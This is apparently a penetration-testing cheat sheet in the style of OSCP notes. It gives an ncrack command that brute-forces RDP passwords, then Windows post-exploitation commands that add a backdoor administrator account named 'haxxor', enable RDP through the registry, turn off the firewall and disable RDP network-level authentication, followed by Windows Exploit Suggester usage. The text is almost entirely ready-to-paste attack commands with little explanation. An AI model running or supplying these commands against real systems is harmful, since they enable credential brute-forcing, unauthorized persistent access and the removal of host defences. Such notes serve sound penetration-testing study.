Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
# Windows Exploit Suggester
```
windows-exploit-suggester.py --update
windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
The output shows either public exploits (E), or Metasploit modules (M) as indicated by the character value
```
------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------

